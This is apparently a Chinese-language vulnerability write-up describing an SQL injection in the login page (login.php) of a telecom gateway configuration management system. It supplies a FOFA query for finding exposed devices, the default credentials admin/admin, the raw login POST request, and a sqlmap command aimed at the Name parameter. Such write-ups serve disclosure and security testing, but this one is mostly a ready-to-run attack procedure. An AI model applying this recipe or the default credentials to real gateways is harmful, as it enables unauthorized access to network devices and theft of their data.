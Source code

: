 # 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## FOFA

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140923586.png)

设备存在默认弱口令 **admin/admin**

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140924953.png)

登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140924004.png)

#